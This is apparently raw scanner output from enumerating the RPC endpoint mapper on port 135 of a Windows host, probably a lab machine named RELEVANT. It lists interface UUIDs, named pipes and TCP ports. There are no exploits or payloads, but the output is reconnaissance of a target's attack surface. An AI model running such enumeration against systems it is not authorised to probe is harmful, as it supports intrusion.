[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (senssvc) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (DeviceSetupManager) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (SessEnvPrivateRpc) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 TCP (49666) 10.10.211.209 [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (ubpmtaskhostchannel) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (LRPC-6cdb557a8eb4025087) [AppInfo]
[*] 10.10.211.209:135 - 58e604e8-9adb-4d2e-a464-3b0683fb1480 v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (OLE04105744772CBD3658A8B4B39FD4) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (IUserProfile2) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (LRPC-4bea3e1d172efa7a01) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (senssvc) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (DeviceSetupManager) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (SessEnvPrivateRpc) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 PIPE (\pipe\SessEnvPublicRpc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 TCP (49666) 10.10.211.209 [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 PIPE (\PIPE\atsvc) \\RELEVANT [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (ubpmtaskhostchannel) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (LRPC-6cdb557a8eb4025087) [AppInfo]
[*] 10.10.211.209:135 - fb9a3757-cff0-4db0-b9fc-bd6c131612fd v1.0 LRPC (LRPC-d45dca6e77fc3da3c4) [AppInfo]
[*] 10.10.211.209:135 - 7ea70bcf-48af-4f6a-8968-6a440754d5fa v1.0 LRPC (LRPC-779e752efbefeb8584) [NSI server endpoint]
[*] 10.10.211.209:135 - 3473dd4d-2e88-4006-9cba-22570909dd10 v5.0 LRPC (LRPC-779e752efbefeb8584) [WinHttp Auto-Proxy Service]
[*] 10.10.211.209:135 - 3473dd4d-2e88-4006-9cba-22570909dd10 v5.0 LRPC (OLECB9AD69A2FC13E6E2D68A5881281) [WinHttp Auto-Proxy Service]
[*] 10.10.211.209:135 - a4b8d482-80ce-40d6-934d-b22a01a44fe7 v1.0 LRPC (LicenseServiceEndpoint) [LicenseManager]
[*] 10.10.211.209:135 - df4df73a-c52d-4e3a-8003-8437fdf8302a v0.0 LRPC (LRPC-400aff9001828add07) [WM_WindowManagerRPC\Server]
[*] 10.10.211.209:135 - dd490425-5325-4565-b774-7e27d6c09c24 v1.0 LRPC (LRPC-400aff9001828add07) [Base Firewall Engine API]
[*] 10.10.211.209:135 - dd490425-5325-4565-b774-7e27d6c09c24 v1.0 LRPC (LRPC-bfd295d3c39895ba0d) [Base Firewall Engine API]
[*] 10.10.211.209:135 - 7f9d11bf-7fb9-436b-a812-b2d50c5d4c03 v1.0 LRPC (LRPC-400aff9001828add07) [Fw APIs]
[*] 10.10.211.209:135 - 7f9d11bf-7fb9-436b-a812-b2d50c5d4c03 v1.0 LRPC (LRPC-bfd295d3c39895ba0d) [Fw APIs]
[*] 10.10.211.209:135 - 7f9d11bf-7fb9-436b-a812-b2d50c5d4c03 v1.0 LRPC (LRPC-25283adb98e89a949b) [Fw APIs]
[*] 10.10.211.209:135 - f47433c3-3e9d-4157-aad4-83aa1f5c2d4c v1.0 LRPC (LRPC-400aff9001828add07) [Fw APIs]
[*] 10.10.211.209:135 - f47433c3-3e9d-4157-aad4-83aa1f5c2d4c v1.0 LRPC (LRPC-bfd295d3c39895ba0d) [Fw APIs]
[*] 10.10.211.209:135 - f47433c3-3e9d-4157-aad4-83aa1f5c2d4c v1.0 LRPC (LRPC-25283adb98e89a949b) [Fw APIs]
[*] 10.10.211.209:135 - 2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 LRPC (LRPC-400aff9001828add07) [Fw APIs]
[*] 10.10.211.209:135 - 2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 LRPC (LRPC-bfd295d3c39895ba0d) [Fw APIs]
[*] 10.10.211.209:135 - 2fb92682-6599-42dc-ae13-bd2ca89bd11c v1.0 LRPC (LRPC-25283adb98e89a949b) [Fw APIs]
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-ae7828cc5bd3512014)
[*] 10.10.211.209:135 - 5222821f-d5e2-4885-84f1-5f6185a0ec41 v1.0 LRPC (LRPC-ae7828cc5bd3512014) [Network Connection Broker server endpoint for NCB Reset module]
[*] 10.10.211.209:135 - 5222821f-d5e2-4885-84f1-5f6185a0ec41 v1.0 LRPC (LRPC-32cde8aa94f2aa37a6) [Network Connection Broker server endpoint for NCB Reset module]
[*] 10.10.211.209:135 - 880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 LRPC (LRPC-ae7828cc5bd3512014) [KAPI Service endpoint]
[*] 10.10.211.209:135 - 880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 LRPC (LRPC-32cde8aa94f2aa37a6) [KAPI Service endpoint]
[*] 10.10.211.209:135 - 880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 LRPC (OLE446C2754DC64E78AC02C587782D2) [KAPI Service endpoint]
[*] 10.10.211.209:135 - 880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 LRPC (TSUMRPD_PRINT_DRV_LPC_API) [KAPI Service endpoint]
[*] 10.10.211.209:135 - 880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 LRPC (LRPC-8a0487909e82860246) [KAPI Service endpoint]
[*] 10.10.211.209:135 - e40f7b57-7a25-4cd3-a135-7f7d3df9d16b v1.0 LRPC (LRPC-ae7828cc5bd3512014) [Network Connection Broker server endpoint]
[*] 10.10.211.209:135 - e40f7b57-7a25-4cd3-a135-7f7d3df9d16b v1.0 LRPC (LRPC-32cde8aa94f2aa37a6) [Network Connection Broker server endpoint]
[*] 10.10.211.209:135 - e40f7b57-7a25-4cd3-a135-7f7d3df9d16b v1.0 LRPC (OLE446C2754DC64E78AC02C587782D2) [Network Connection Broker server endpoint]
[*] 10.10.211.209:135 - e40f7b57-7a25-4cd3-a135-7f7d3df9d16b v1.0 LRPC (TSUMRPD_PRINT_DRV_LPC_API) [Network Connection Broker server endpoint]
[*] 10.10.211.209:135 - e40f7b57-7a25-4cd3-a135-7f7d3df9d16b v1.0 LRPC (LRPC-8a0487909e82860246) [Network Connection Broker server endpoint]
[*] 10.10.211.209:135 - 0767a036-0d22-48aa-ba69-b619480f38cb v1.0 LRPC (LRPC-ae7828cc5bd3512014) [PcaSvc]
[*] 10.10.211.209:135 - 0767a036-0d22-48aa-ba69-b619480f38cb v1.0 LRPC (LRPC-32cde8aa94f2aa37a6) [PcaSvc]
[*] 10.10.211.209:135 - 0767a036-0d22-48aa-ba69-b619480f38cb v1.0 LRPC (OLE446C2754DC64E78AC02C587782D2) [PcaSvc]
[*] 10.10.211.209:135 - 0767a036-0d22-48aa-ba69-b619480f38cb v1.0 LRPC (TSUMRPD_PRINT_DRV_LPC_API) [PcaSvc]
[*] 10.10.211.209:135 - 0767a036-0d22-48aa-ba69-b619480f38cb v1.0 LRPC (LRPC-8a0487909e82860246) [PcaSvc]
[*] 10.10.211.209:135 - 30adc50c-5cbc-46ce-9a0e-91914789e23c v1.0 LRPC (LRPC-a3c6caf3aa186bbd1a) [NRP server endpoint]
[*] 10.10.211.209:135 - f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 LRPC (LRPC-a3c6caf3aa186bbd1a) [Event log TCPIP]
[*] 10.10.211.209:135 - f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 LRPC (eventlog) [Event log TCPIP]
[*] 10.10.211.209:135 - f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 PIPE (\pipe\eventlog) \\RELEVANT [Event log TCPIP]
[*] 10.10.211.209:135 - f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 TCP (49665) 10.10.211.209 [Event log TCPIP]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6 v1.0 LRPC (LRPC-a3c6caf3aa186bbd1a) [DHCPv6 Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6 v1.0 LRPC (eventlog) [DHCPv6 Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6 v1.0 PIPE (\pipe\eventlog) \\RELEVANT [DHCPv6 Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6 v1.0 TCP (49665) 10.10.211.209 [DHCPv6 Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6 v1.0 LRPC (dhcpcsvc6) [DHCPv6 Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 LRPC (LRPC-a3c6caf3aa186bbd1a) [DHCP Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 LRPC (eventlog) [DHCP Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 PIPE (\pipe\eventlog) \\RELEVANT [DHCP Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 TCP (49665) 10.10.211.209 [DHCP Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 LRPC (dhcpcsvc6) [DHCP Client LRPC Endpoint]
[*] 10.10.211.209:135 - 3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 LRPC (dhcpcsvc) [DHCP Client LRPC Endpoint]
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-a3c6caf3aa186bbd1a)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (eventlog)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 PIPE (\pipe\eventlog) \\RELEVANT
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 TCP (49665) 10.10.211.209
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (dhcpcsvc6)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (dhcpcsvc)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-7d52cd791892437c82)
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 LRPC (LRPC-a3c6caf3aa186bbd1a)
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 LRPC (eventlog)
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 PIPE (\pipe\eventlog) \\RELEVANT
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 TCP (49665) 10.10.211.209
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 LRPC (dhcpcsvc6)
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 LRPC (dhcpcsvc)
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 LRPC (LRPC-7d52cd791892437c82)
[*] 10.10.211.209:135 - a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 LRPC (LRPC-d0ce3b2a172f708f68)
[*] 10.10.211.209:135 - 4bec6bb8-b5c2-4b6f-b2c1-5da5cf92d0d9 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 4bec6bb8-b5c2-4b6f-b2c1-5da5cf92d0d9 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 085b0334-e454-4d91-9b8c-4134f9e793f3 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 085b0334-e454-4d91-9b8c-4134f9e793f3 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 8782d3b9-ebbd-4644-a3d8-e8725381919b v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 8782d3b9-ebbd-4644-a3d8-e8725381919b v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 3b338d89-6cfa-44b8-847e-531531bc9992 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 3b338d89-6cfa-44b8-847e-531531bc9992 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - bdaa0970-413b-4a3e-9e5d-f6dc9d7e0760 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - bdaa0970-413b-4a3e-9e5d-f6dc9d7e0760 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 5824833b-3c1a-4ad2-bdfd-c31d19e23ed2 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 5824833b-3c1a-4ad2-bdfd-c31d19e23ed2 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (umpo) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (actkernel) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db) [Impl friendly name]
[*] 10.10.211.209:135 - 2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 LRPC (umpo)
[*] 10.10.211.209:135 - 2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - c521facf-09a9-42c5-b155-72388595cbf0 v0.0 LRPC (umpo)
[*] 10.10.211.209:135 - c521facf-09a9-42c5-b155-72388595cbf0 v0.0 LRPC (actkernel)
[*] 10.10.211.209:135 - c521facf-09a9-42c5-b155-72388595cbf0 v0.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - c521facf-09a9-42c5-b155-72388595cbf0 v0.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - c521facf-09a9-42c5-b155-72388595cbf0 v0.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - c521facf-09a9-42c5-b155-72388595cbf0 v0.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 4dace966-a243-4450-ae3f-9b7bcb5315b8 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 4dace966-a243-4450-ae3f-9b7bcb5315b8 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 4dace966-a243-4450-ae3f-9b7bcb5315b8 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 4dace966-a243-4450-ae3f-9b7bcb5315b8 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 4dace966-a243-4450-ae3f-9b7bcb5315b8 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 4dace966-a243-4450-ae3f-9b7bcb5315b8 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 55e6b932-1979-45d6-90c5-7f6270724112 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 LRPC (umpo)
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 88abcbc3-34ea-76ae-8215-767520655a23 v0.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 2513bcbe-6cd4-4348-855e-7efb3c336dd3 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 20c40295-8dba-48e6-aebf-3e78ef3bb144 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - b8cadbaf-e84b-46b9-84f2-6f71c03f9e55 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (actkernel)
